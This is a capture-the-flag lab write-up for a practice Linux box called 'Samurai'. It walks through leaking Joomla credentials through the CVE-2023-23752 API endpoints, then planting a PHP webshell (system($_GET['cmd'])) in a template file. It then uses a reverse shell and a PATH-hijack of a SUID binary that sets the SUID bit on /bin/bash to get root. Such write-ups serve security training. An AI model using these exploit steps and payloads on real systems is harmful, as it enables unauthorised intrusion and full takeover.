# Lab Report - Samurai


# Overview 
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://www.hacksmarter.org/courses/3b3f3073-3242-4aee-9bcd-0fb058ce4e13

## Resolution Summary 
We uncovered a web application running Joomla version 4.2.5, which was vulnerable to CVE-2023-23752, allowing us to retrieve valid credentials for the administrator login panel. Having access to the dashboard, we gained RCE by replacing a PHP template file with a PHP reverse shell. Finally, we gained a root shell by exploiting an insecure command invocation inside a custom SUID binary (PATH abuse).

# Walkthrough 
- To begin with, we performed an Nmap scan in order to find available services on the target. We found that an SSH server and e web application (HTTP) were running: 
```bash
sudo nmap 10.1.29.64 -p- -vv
```
<p align="center">
  
</p>

- After accessing the web application, there was not much information. Therefore, we fuzzed for directories and found an administrator panel, allowing to find that the web server is running Joomla: 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.1.29.64/FUZZ -t 180 -ic -fs 3185
```
<p align="center">
  
</p>

- After further enumeration, we browsed to the following URL, which allowed us to find that the Joomla version running was 4.x (likely 4.2):
```bash
http://10.1.29.64/README.txt
```
<p align="center">
  
</p>

- Knowing that, we looked it up and found that it was affected by CVE-2023-23752, an improper API access check that can disclose configuration data.
- Following that, we could access two URLs that allowed us to recover both a username and a password: 
```bash
http://10.1.29.64/api/v1/users?public=true
```
<p align="center">
  
</p>

```bash
http://10.1.29.64/api/index.php/v1/config/application?public=true
```
<p align="center">
  
</p>

- Using these credentials allowed us to log in via the administrator's panel and gain access to the Joomla instance: 
```bash
http://10.1.29.64/administrator
```
<p align="center">
  
</p>

- Next, we edited a template PHP file to add a PHP webshell and confirm RCE on the target.
- First, click `System` on the left toolbar, then in the right section click `Site Templates` under `Templates`:
```bash
http://10.1.29.64/administrator/index.php?option=com_cpanel&view=cpanel&dashboard=system
```
<p align="center">
  
</p>

- Then click the first (and only) template to access its files: 
```bash
http://10.1.29.64/administrator/index.php?option=com_templates&view=templates&client_id=0
```
<p align="center">
  
</p>

- Afterwards, we added the following PHP webshell snippet on the `error.php` file, then we saved our edit: 
```bash
http://10.1.29.64/administrator/index.php?option=com_templates&view=template&id=223&file=L2Vycm9yLnBocA%3D%3D&isMedia=0
```

```bash
system($_GET['cmd']);
```
<p align="center">
  
</p>

- We confirmed that we had RCE by navigating to the following URL: 
```bash
http://10.1.29.64/templates/cassiopeia/error.php?cmd=id
```
<p align="center">
  
</p>

- Finally, we edited the `error.php` script again by replacing its content with [Pentestmonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We edited the IP and port variables then saved our changes, just as we did earlier.

- We also set up a listener to catch our reverse shell:
```bash
penelope -p 443
```

- After accessing the following URL, we gained a reverse shell on the target: 
```bash
http://10.1.29.64/templates/cassiopeia/error.php
```
<p align="center">
  
</p>

- Afterwards, we discovered an unusual SUID binary: 
```bash
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
<p align="center">
  
</p>

- We inspected the binary and noticed that it was running `mariadb-dump`, without specifying the binary's full path:
```bash
strings /opt/backup/DbMaria
```
<p align="center">
  
</p>

- Knowing that, we successfully edited our PATH variable in order to execute a malicious binary instead of the intended one: 
```bash
PATH=/tmp:$PATH
export PATH
echo $PATH
```
<p align="center">
  
</p>

- Next, we created a malicious binary that will allow us to gain a root shell: 
```bash
cd /tmp/
echo "chmod +s /bin/bash" > mariadb-dump
chmod +x mariadb-dump
```

- Finally, we ran the SUID binary and gained a root shell:
```bash
/opt/backup/DbMaria f
ls -la /bin/bash
/bin/bash -p
```
<p align="center">
  
</p>

- Before wrapping up, we collected the flags: 
```bash
cat /var/www/user.txt && cat /root/root.txt
```
<p align="center">
  
</p>

# Trophy 
**User.txt → `flag{Tachi_794–1185}`**  

**Root.txt → `flag{Katana_1603–1868}`**

# Lessons Learned
- You will most likely not be able to use PATH abuse and sudo, as `sudo` relies on its own PATH variable called `secure_path`.

- Don't forget the `-p` flag when using `/bin/bash` to not drop privileges.
	- Here, we could have executed `id` first to confirm the vulnerability. 
